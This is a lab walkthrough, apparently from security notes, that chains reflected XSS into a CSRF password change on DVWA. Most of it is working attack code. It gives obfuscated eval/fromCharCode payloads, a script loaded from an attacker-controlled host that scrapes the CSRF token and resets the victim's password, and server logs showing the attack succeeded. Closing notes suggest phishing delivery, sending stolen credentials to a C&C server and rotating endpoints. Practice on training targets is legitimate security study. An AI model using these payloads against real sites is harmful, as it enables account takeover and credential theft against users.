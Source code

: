 #### 4.1. XSS + CSRF bypass (high security DVWA)

Attempting CSRF bypass via XSS.
Note: SoP does not allow access to the DOM of an `iframe` - therefore we cannot fetch the CSRF token from the target page.

#### 4.1.1. find XSS on victim website

```javascript
<!-- alert(123) -->
http://172.16.201.160/vulnerabilities/xss_r/?name=<img src=x onerror=eval(String.fromCharCode(97,108,101,114,116,40,49,50,51,41))>
```


#### 4.1.2. prepare JavaScript payload (as remote JS file) that collects CSRF token - `x.js`

```javascript
var res = document.createElement("div");
var xhr = new XMLHttpRequest();
xhr.open('GET', '/vulnerabilities/csrf/', true);
xhr.onreadystatechange = function() {
if (xhr.readyState === 4)  { 
	res.innerHTML = xhr.responseText;
	user_token = res.querySelector('[name="user_token"]').value;
}};
xhr.send(null);
```


#### 4.1.3. prepare XSS payload that loads and executes remote JS file

##### a) low security
```
http://172.16.201.160/vulnerabilities/xss_r/?name=<img src=x onerror="var x=document.createElement('script');x.src='http://172.16.195.1:8081/x.js';document.body.appendChild(x);">
```

##### b) high security (no JS errors, hidden image)
```
http://172.16.201.160/vulnerabilities/xss_r/?name=Alex<img onload=eval(String.fromCharCode(118,97,114,32,120,61,100,111,99,117,109,101,110,116,46,99,114,101,97,116,101,69,108,101,109,101,110,116,40,39,115,99,114,105,112,116,39,41,59,120,46,115,114,99,61,39,104,116,116,112,58,47,47,49,55,50,46,49,54,46,49,57,53,46,49,58,56,48,56,49,47,120,46,106,115,39,59,100,111,99,117,109,101,110,116,46,98,111,100,121,46,97,112,112,101,110,100,67,104,105,108,100,40,120,41,59)) style="width:0;height:0;border:0;" src="/dvwa/images/logo.png">
```
Note: payload could be fully URL-encoded when used together with phishing/social-engineering attack `(^_^)`


##### c) alternative payload (placing the the script inside `<head></head>`)
```
var x=document.createElement('script');x.src='http://172.16.195.1:8081/x.js';document.getElementsByTagName('head').appendChild(x);"
```


#### 4.1.4. prepare JavaScript payload (as remote JS file) that runs CSRF attack via XSS

File: `x.js`

```javascript
function csrfChangePass(token, pass) {
   var xhr = new XMLHttpRequest();
   var params = '?user_token=' + token + '&password_new=' + pass + '&password_conf=' + pass + '&Change=Change';
   
   xhr.open("GET", "/vulnerabilities/csrf/" + params, true);
   xhr.withCredentials = true;
   var body = ""; // params data could be here if POST request
   var aBody = new Uint8Array(body.length);
   for (var i = 0; i < aBody.length; i++)
      aBody[i] = body.charCodeAt(i); 
   xhr.send(new Blob([aBody]));
}

history.pushState('', '', document.location.pathname)
var res = document.createElement("div");
var xhr = new XMLHttpRequest();
xhr.open('GET', '/vulnerabilities/csrf/', true);
xhr.onreadystatechange = function() {
   if (xhr.readyState === 4)  {
      res.innerHTML = xhr.responseText;
	  user_token = res.querySelector('[name="user_token"]').value
	  if (user_token !== null) {
            csrfChangePass(user_token, '123');
	  }
   }
};
xhr.send(null);
```


#### 4.1.5. inspect logs server-side to check desired outcome

```
172.16.201.1 - - [NOLOGSNOCRIME] "GET /vulnerabilities/xss_r/?name=Alex%3Cimg%20onload=eval(String.fromCharCode(118,97,114,32,120,61,100,111,99,117,109,101,110,116,46,99,114,101,97,116,101,69,108,101,109,101,110,116,40,39,115,99,114,105,112,116,39,41,59,120,46,115,114,99,61,39,104,116,116,112,58,47,47,49,55,50,46,49,54,46,49,57,53,46,49,58,56,48,56,49,47,120,46,106,115,39,59,100,111,99,117,109,101,110,116,46,98,111,100,121,46,97,112,112,101,110,100,67,104,105,108,100,40,120,41,59))%20style=%22width:0;height:0;border:0;%22%20src=%22/dvwa/images/logo.png%22%3E HTTP/1.1" 200 1961 "-" "Mozilla/5.0 (Windows NT 10.0; WOW64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/62.0.3202.9 Safari/537.36"
172.16.201.1 - - [NO LOGS NO CRIME] "GET /vulnerabilities/csrf/ HTTP/1.1" 200 1770 "http://172.16.201.160/vulnerabilities/xss_r/" "Mozilla/5.0 (Windows NT 10.0; WOW64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/62.0.3202.9 Safari/537.36"
172.16.201.1 - - [NOLOGSNOCRIME] "GET /vulnerabilities/csrf/?user_token=da735f06068570ed350a8237ab6ce3b0&password_new=123&password_conf=123&Change=Change HTTP/1.1" 200 1783 "http://172.16.201.160/vulnerabilities/xss_r/" "Mozilla/5.0 (Windows NT 10.0; WOW64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/62.0.3202.9 Safari/537.36"
```


#### 4.1.6. Attack flow

- victim executes XSS payload on their behalf (in the browser)
- XSS payload loads remote JS file that executes malicious code in the context of the current user-session
  * 1st XHR request to fetch the CSRF token
  * 2nd XHR request to change user password on form protected by CSRF token
- current user password is changed
- extra: attacker can log user-name & password by sending XHR requests to their C&C server
- extra: after successful logging attacker can tear-down the C&C endpoint and spawn another (random) one for further affairs
